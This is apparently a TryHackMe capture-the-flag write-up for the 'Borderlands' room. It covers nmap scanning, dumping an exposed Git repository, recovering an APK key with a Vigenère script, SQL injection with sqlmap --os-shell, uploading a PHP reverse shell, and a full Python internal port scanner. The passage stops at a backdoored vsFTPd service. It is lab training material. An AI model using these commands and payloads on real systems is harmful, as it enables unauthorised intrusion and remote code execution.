TryHackMe Writeup
Borderlands
Borderlands is one of those rooms where a simple web foothold is only the beginning. The path moves through an exposed Git repository, Android APK analysis, SQL injection, internal network pivoting, a vulnerable FTP service, and finally BGP route manipulation to capture both UDP and TCP-based flags.
Initial Enumeration
I started with a full TCP scan to identify exposed services. The
result immediately showed the most important early clue: the web
server exposed a public .git directory, and the last
commit referenced a mobile APK used for beta testing.
nmap -sC -sV -p- --min-rate 5000 -oN initial-scan.txt TARGET_IP
Nmap scan report for 10.48.145.208
Host is up (0.025s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
80/tcp open http nginx 1.14.0 (Ubuntu)
| http-git:
| 10.48.145.208:80/.git/
| Git repository found!
|_ Last commit message: added mobile apk for beta testing.
8080/tcp closed http-proxyAt that point, recovering the repository made more sense than spending time brute forcing paths blindly.
Android APK Analysis
Since the Git clue mentioned a mobile beta build, I downloaded the
APK and opened it with jadx-gui. The APK did not
directly hand me the final Android API key, but it did reveal how
the application stored it.
Inside
Resources -> resources.arsc -> res -> values -> strings.xml,
I found an encrypted_api_key value.


This told me the Android client was storing an encrypted API credential locally. That meant the mobile application alone was not enough, but it also meant the web application or leaked source code might contain the corresponding plaintext or decryption logic.
Recovering the Exposed Git Repository
Since the site exposed .git, I dumped the repository
and reviewed the contents directly.
git-dumper http://TARGET_IP/.git dumped-repo
The repository contained PHP source files, PDFs, and the APK itself. That instantly made the Git leak the most valuable finding in the room.
[ shadow /mnt/nvme1n1/tryhackme/BorderLands/git_Data ]# ls -la
total 4360
drwxr-xr-x 3 shadow shadow 4096 Mar 27 18:06 .
drwxr-xr-x 4 shadow shadow 4096 Mar 27 16:36 ..
-rw-r--r-- 1 shadow shadow 880 Mar 27 09:28 api.php
-rw-r--r-- 1 shadow shadow 821311 Mar 27 09:28 Context_Red_Teaming_Guide.pdf
-rw-r--r-- 1 shadow shadow 57770 Mar 27 09:28 Context_White_Paper_Pen_Test_101.pdf
-rw-r--r-- 1 shadow shadow 533824 Mar 27 09:28 CTX_WSUSpect_White_Paper.pdf
-rw-r--r-- 1 shadow shadow 1963179 Mar 27 09:28 Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf
-rw-r--r-- 1 shadow shadow 3040 Mar 27 09:28 functions.php
drwxr-xr-x 7 shadow shadow 4096 Mar 27 11:11 .git
-rw-r--r-- 1 shadow shadow 1024712 Mar 27 09:28 Glibc_Adventures-The_Forgotten_Chunks.pdf
-rw-r--r-- 1 shadow shadow 1508 Mar 27 09:28 home.php
-rw-r--r-- 1 shadow shadow 14534 Mar 27 09:28 index.php
-rw-r--r-- 1 shadow shadow 21 Mar 27 09:28 info.phpUnderstanding api.php
The api.php file exposed how the application
validated API keys. It compared the provided value against known
prefixes such as the web, Android, and Git API keys.

This was the point where the APK and web application started to connect. The APK gave me an encrypted value, while the backend source provided enough known text to help recover the decryption material.
Deriving the Android Decryption Key
The Android-side encrypted API value and the known text from the web source fit a Vigenère-style relationship. That means I could mathematically derive the missing decryption key instead of trying to guess it.
Cipher = Plain + Key (mod 26)
Key = Cipher - Plain (mod 26)
Plain = Cipher - Key (mod 26)I used a quick Python script to compare the encrypted Android value and the plaintext recovered from the API source.
c = "YOUR_ANDROID_API_KEY"
p = "THE_DECRYPTION_KEY"
def letters_only(s: str):
return [ch.upper() for ch in s if ch.isalpha()]
cipher = letters_only(c)
plain = letters_only(p)
key_nums = []
for i in range(len(plain)):
cv = ord(cipher[i]) - ord("A")
pv = ord(plain[i]) - ord("A")
kv = (cv - pv) % 26
key_nums.append(kv)
key = "".join(chr(k + ord("A")) for k in key_nums)
print(key)That calculation gave the missing key material used to decrypt the Android API credential and link the mobile application back to the web API workflow.
Git History and Sensitive Data
Since the repository was fully dumped, the next logical step was to inspect the commit history. One commit stood out immediately.

commit b2f776a52fe81a731c6c0fa896e7f9548aafceab
Author: Context Information Security <recruitment@contextis.com>
Date: Tue Sep 10 14:41:00 2019 +0100
removed sensitive dataI then inspected that commit in detail.
git show b2f776a52fe81a731c6c0fa896e7f9548aafceab
Server-Side Logic and SQL Injection
Reviewing functions.php exposed useful values,
including database-related logic and request handling worth testing
further.

After building a request file from the application behavior, I used
sqlmap against it.

sqlmap -r request.txt -D myfirstwebsite --os-shell
Uploading the PHP Backdoor
Once I had enough access through the SQL injection path, I used the exposed upload/backdoor location to place a PHP reverse shell.

For the payload, I used PentestMonkey's PHP reverse shell, updated the callback IP and port, uploaded it, and triggered it directly.

http://TARGET_IP/revshell.phpGetting the Initial Shell
Triggering the uploaded shell gave me code execution as
www-data. I then stabilized the shell for easier
interaction and grabbed the first flag.

export TERM=xterm
python3 -c 'import pty; pty.spawn("/bin/bash")'
Internal Enumeration with Python Only
Instead of transferring a full scanner like Nmap to the target, I used a custom Python script to enumerate internal hosts, ports, and banners from the compromised machine.
#!/usr/bin/env python3
import argparse
import concurrent.futures
import ipaddress
import socket
import ssl
import sys
from typing import List, Optional, Tuple
def safe_text(value) -> str:
if value is None:
return ""
if isinstance(value, bytes):
return value.decode("utf-8", errors="replace").encode("ascii", errors="replace").decode("ascii")
return str(value).encode("ascii", errors="replace").decode("ascii")
def parse_ports(port_spec: str) -> List[int]:
ports = set()
for part in port_spec.split(","):
part = part.strip()
if not part:
continue
if "-" in part:
start_s, end_s = part.split("-", 1)
start = int(start_s)
end = int(end_s)
if start > end:
start, end = end, start
for port in range(start, end + 1):
if 1 <= port <= 65535:
ports.add(port)
else:
port = int(part)
if 1 <= port <= 65535:
ports.add(port)
return sorted(ports)
def parse_targets(target: str) -> List[str]:
target = target.strip()
if "," in target:
return [item.strip() for item in target.split(",") if item.strip()]
if "/" in target:
network = ipaddress.ip_network(target, strict=False)
return [str(ip) for ip in network.hosts()]
if "-" in target:
prefix, last = target.rsplit(".", 1)
start_s, end_s = last.split("-", 1)
start = int(start_s)
end = int(end_s)
return [f"{prefix}.{i}" for i in range(start, end + 1)]
return [target]
def connect_open(host: str, port: int, timeout: float) -> bool:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
try:
return s.connect_ex((host, port)) == 0
except Exception:
return False
finally:
s.close()
def recv_quick(sock: socket.socket, size: int = 2048) -> bytes:
try:
return sock.recv(size)
except Exception:
return b""
def try_plain_banner(host: str, port: int, timeout: float) -> str:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
try:
s.connect((host, port))
data = recv_quick(s, 2048)
if data:
return safe_text(data).strip()
probe = b""
if port in (80, 8080, 8000, 8888, 8008):
probe = b"HEAD / HTTP/1.0\\r\\nHost: localhost\\r\\n\\r\\n"
elif port == 21:
probe = b"HELP\\r\\n"
else:
probe = b"\\r\\n"
if probe:
s.sendall(probe)
data = recv_quick(s, 2048)
if data:
return safe_text(data).strip()
return ""
finally:
s.close()
def scan_port(host: str, port: int, timeout: float) -> Optional[Tuple[str, int, str]]:
if not connect_open(host, port, timeout):
return None
banner = try_plain_banner(host, port, timeout)
return host, port, safe_text(banner)
def main():
parser = argparse.ArgumentParser()
parser.add_argument("target")
parser.add_argument("-p", "--ports", default="1-1024")
parser.add_argument("-t", "--timeout", type=float, default=0.3)
parser.add_argument("-w", "--workers", type=int, default=300)
args = parser.parse_args()
targets = parse_targets(args.target)
ports = parse_ports(args.ports)
with concurrent.futures.ThreadPoolExecutor(max_workers=args.workers) as executor:
futures = [
executor.submit(scan_port, host, port, args.timeout)
for host in targets
for port in ports
]
for future in concurrent.futures.as_completed(futures):
result = future.result()
if result:
host, port, banner = result
if banner:
print(f"[OPEN] {host}:{port:<5} | {banner}")
else:
print(f"[OPEN] {host}:{port:<5} | <no banner>")
if __name__ == "__main__":
main()
Running that script from the victim machine exposed the internal
FTP service on 172.16.1.128:21, which was running
vsFTPd 2.3.4.

That version is known to be backdoored, so I checked
searchsploit for a matching exploit.
